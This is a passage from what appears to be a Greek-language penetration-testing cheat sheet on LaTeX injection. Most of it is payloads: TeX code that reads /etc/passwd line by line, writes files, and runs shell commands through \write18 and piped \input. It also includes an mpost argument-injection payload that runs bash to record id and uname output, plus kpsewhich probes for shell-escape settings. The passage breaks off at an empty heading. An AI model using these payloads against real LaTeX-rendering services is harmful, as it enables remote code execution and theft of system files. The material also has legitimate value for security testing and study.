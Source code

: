 ```bash
```
#### Διαβάστε αρχείο με πολλαπλές γραμμές
```bash
\newread\file
\openin\file=/etc/passwd
\loop\unless\ifeof\file
\read\file to\fileline
\text{\fileline}
\repeat
\closein\file
```
### Εγγραφή αρχείου <a href="#write-file" id="write-file"></a>
```bash
\newwrite\outfile
\openout\outfile=cmd.tex
\write\outfile{Hello-world}
\closeout\outfile
```
### Εκτέλεση εντολής <a href="#command-execution" id="command-execution"></a>

Η είσοδος της εντολής θα ανακατευθυνθεί στο stdin, χρησιμοποιήστε ένα προσωρινό αρχείο για να το λάβετε.
```bash
\immediate\write18{env > output}
\input{output}

\input{|"/bin/hostname"}
\input{|"extractbb /etc/passwd > /tmp/b.tex"}

# allowed mpost command RCE
\documentclass{article}\begin{document}
\immediate\write18{mpost -ini "-tex=bash -c (id;uname${IFS}-sm)>/tmp/pwn" "x.mp"}
\end{document}

# If mpost is not allowed there are other commands you might be able to execute
## Just get the version
\input{|"bibtex8 --version > /tmp/b.tex"}
## Search the file pdfetex.ini
\input{|"kpsewhich pdfetex.ini > /tmp/b.tex"}
## Get env var value
\input{|"kpsewhich -expand-var=$HOSTNAME > /tmp/b.tex"}
## Get the value of shell_escape_commands without needing to read pdfetex.ini
\input{|"kpsewhich --var-value=shell_escape_commands > /tmp/b.tex"}
```
### Formula CSV Document LaTeX Ghostscript Injection

---
